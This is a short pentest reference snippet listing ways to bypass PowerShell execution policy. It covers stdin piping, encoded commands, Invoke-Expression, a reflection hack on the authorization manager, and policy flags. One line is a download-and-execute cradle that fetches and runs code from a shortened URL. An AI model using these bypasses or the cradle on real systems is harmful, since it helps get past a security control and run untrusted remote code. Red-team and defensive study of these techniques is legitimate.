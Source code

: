 # Powershell ExecutionPolicy Bypass

```powershell
Echo Write-Host "My voice is my passport, verify me."  | PowerShell.exe -noprofile -
Get-Content .runme.ps1 | PowerShell.exe -noprofile - 
TYPE .runme.ps1 | PowerShell.exe -noprofile -
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
Powershell -c "Write-Host 'My voice is my passport, verify me.'"

$command = "Write-Host 'My voice is my passport, verify me.'" 
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encodedCommand

invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}
Get-Content .runme.ps1 | Invoke-Expression
GC .runme.ps1 | iex
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1
PowerShell.exe -ExecutionPolicy Remote-signed -File .runme.ps1 # siehe http://www.darkoperator.com/blog/2013/3/5/powershell-basics-execution-policy-part-1.html

function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
Disable-ExecutionPolicy
./runme.ps1

Set-ExecutionPolicy Bypass -Scope Process
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
# edit HKEY_CURRENT_USER\Software\MicrosoftPowerShell\1\ShellIds\Microsoft.PowerShell
```
## Referenzen
[Vollständiger Blogpost](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)
http://blogs.msdn.com/b/powershell/archive/2008/09/30/powershell-s-security-guiding-principles.aspx
http://obscuresecurity.blogspot.com/2011/08/powershell-executionpolicy.html
http://roo7break.co.uk/?page_id=611
http://technet.microsoft.com/en-us/library/hh849694.aspx
http://technet.microsoft.com/en-us/library/hh849812.aspx
http://technet.microsoft.com/en-us/library/hh849893.aspx
http://www.darkoperator.com/blog/2013/3/21/powershell-basics-execution-policy-and-code-signing-part-2.html
http://www.hanselman.com/blog/SigningPowerShellScripts.aspx
http://www.darkoperator.com/blog/2013/3/5/powershell-basics-execution-policy-part-1.html
http://www.nivot.org/blog/post/2012/02/10/Bypassing-Restricted-Execution-Policy-in-Code-or-in-Scriptfrom
http://www.powershellmagazine.com/2014/07/08/powersploit/

tags: #powershell #snippets #pentest #windows 
